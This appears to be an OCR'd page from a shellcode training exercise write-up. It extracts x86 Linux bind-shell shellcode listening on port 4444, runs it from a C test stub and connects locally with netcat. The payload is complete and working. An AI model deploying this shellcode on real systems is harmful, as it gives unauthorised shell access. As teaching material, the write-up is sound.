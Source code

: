 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
root@funos:~/shared/SLAE/slae/exercise1# objdump -d ./bindshellasm|grep '[0-9a-f]:'| \
grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '\
|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31"
"\xff\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66"
"\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04"
"\x31\xc9\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x57\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49"
"\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
\end{verbatim}

We add our opcodes to a stub tester C program:

\begin{verbatim}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31"
"\xff\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66"
"\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04"
"\x31\xc9\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
"\x51\x57\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49"
"\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x31\xc9\x31\xd2\xcd\x80";


main()
{

  printf("Shellcode Length:  %d\n", strlen(code));

  int (*ret)() = (int(*)())code;

  ret();

}
\end{verbatim}

Compile with: \verb~gcc shellcode.c -o shellcode~
Run with: \verb~./shellcode~
Connect with: \verb~nc -nv 127.0.0.1 4444~


And it works! We get our shell. The shellcode is 122 bytes without really
trying to optimize. We can go back and see if we can do better now.
\end{document}
